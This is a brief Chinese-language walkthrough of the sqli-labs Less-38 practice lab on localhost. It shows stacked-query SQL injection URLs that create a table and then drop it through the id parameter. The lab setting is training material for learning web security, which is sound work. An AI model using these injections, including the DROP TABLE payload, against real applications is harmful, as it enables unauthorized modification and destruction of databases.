

# Less-38
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
我们直接构造语句：
http://127.0.0.1/sqli/Less-38/?id=1'; create table crow like users; --+
然后在数据库中查看是否可以完成执行： show tables;
我们可以构造数据删除已经创建的表:
http://127.0.0.1/sqli/Less-38/?id=1'; drop table crow ; --+